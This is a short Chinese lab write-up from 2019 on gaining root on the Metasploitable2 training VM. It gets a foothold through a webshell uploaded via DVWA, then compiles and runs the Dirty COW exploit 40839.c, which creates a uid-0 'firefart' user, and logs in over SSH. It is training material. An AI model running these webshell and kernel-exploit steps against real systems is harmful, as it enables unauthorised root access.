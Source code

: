 ## metasploit_table2提权

2019-5-15

通过dvwa上传了webshell文件

蚁剑连过去，`uname -a` 查看内核版本信息

```
当前路径: /var/www/dvwa/hackable/uploads
磁盘列表: /
系统信息: Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
当前用户: www-data
(www-data:/var/www/dvwa/hackable/uploads) $ uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

kali `searchsploit privilege | grep linux  | grep 2.6`搜索提权exp

搜到很多exp，这里先试试`exploits/linux/local/40616.c`

```
Linux Kernel 2.6.22 < 3.9 (x86/x64)
'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)             exploits/linux/local/40616.c
```

打开文件，注释里有使用说明和条件要求

```c
//40616.c
/*........
* (un)comment correct payload first (x86 or x64)!
*
* $ gcc cowroot.c -o cowroot -pthread
* $ ./cowroot
....*/
```

根据要求，i686为32位机器，注释掉了64位的payload，取消注释32位的payload，然后上传上去

```shell
(www-data:/var/www/dvwa/hackable/uploads) $ gcc 40616.c -o cowroot -pthread
40616.c: In function 'procselfmemThread':
40616.c:101: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast
40616.c: In function 'main':
40616.c:144: error: invalid use of undefined type 'struct stat'
40616.c:146: error: invalid use of undefined type 'struct stat'
40616.c:147: error: invalid use of undefined type 'struct stat'
40616.c:150: error: invalid use of undefined type 'struct stat'
```

emmm，加上缺少的头文件还是提权失败，换个exp



`/usr/share/exploitdb/exploits/linux/local/40839.c`

上传，编译，运行。会创建一个firefart用户，uid=0，密码为执行文件时传入的参数

```
(www-data:/tmp) $ gcc -pthread 40839.c -o dirty -lcrypt
40839.c:193:2: warning: no newline at end of file
(www-data:/tmp) $ ./dirty pass
```

ssh过去，成功拿到超级用户权限

```
$ ssh firefart@10.16.28.149
firefart@metasploitable:~#
```

